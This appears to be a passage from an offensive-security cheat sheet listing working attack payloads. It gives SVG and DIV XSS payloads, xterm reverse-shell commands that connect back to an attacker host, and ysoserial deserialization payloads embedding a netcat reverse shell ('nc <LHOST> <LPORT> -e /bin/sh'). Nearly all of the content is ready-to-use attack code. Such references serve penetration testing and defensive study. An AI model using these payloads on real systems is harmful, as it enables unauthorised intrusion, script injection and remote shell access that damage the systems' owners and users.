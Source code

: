 ### SVG Payloads

```c
<svgonload=alert(1)>
<svg/onload=alert('XSS')>
<svg onload=alert(1)//
<svg/onload=alert(String.fromCharCode(88,83,83))>
<svg id=alert(1) onload=eval(id)>
"><svg/onload=alert(String.fromCharCode(88,83,83))>
"><svg/onload=alert(/XSS/)
<svg><script href=data:,alert(1) />(`Firefox` is the only browser which allows self closing script)
```

### DIV Payloads

```c
<div onpointerover="alert(45)">MOVE HERE</div>
<div onpointerdown="alert(45)">MOVE HERE</div>
<div onpointerenter="alert(45)">MOVE HERE</div>
<div onpointerleave="alert(45)">MOVE HERE</div>
<div onpointermove="alert(45)">MOVE HERE</div>
<div onpointerout="alert(45)">MOVE HERE</div>
<div onpointerup="alert(45)">MOVE HERE</div>
```

## xterm Reverse Shell

The following command should be run on the server. It will try to connect back <LHOST> on port `6001/TCP`.

```c
$ xterm -display <LHOST>:1
```

To catch the incoming xterm, start an X-Server on attacker machine (:1 – which listens on port `6001/TCP`.

```c
$ Xnest :1
$ xhost +10.10.10.211
```

## ysoserial

> https://github.com/frohoff/ysoserial

> https://github.com/pwntester/ysoserial.net

```c
$ java -jar ysoserial-master-SNAPSHOT.jar
```

### Create Reverse Shell

```c
$ java -jar ysoserial-master-SNAPSHOT.jar CommonsCollections1 'nc <LHOST> <LPORT> -e /bin/sh' | base64 -w 0
$ java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
```
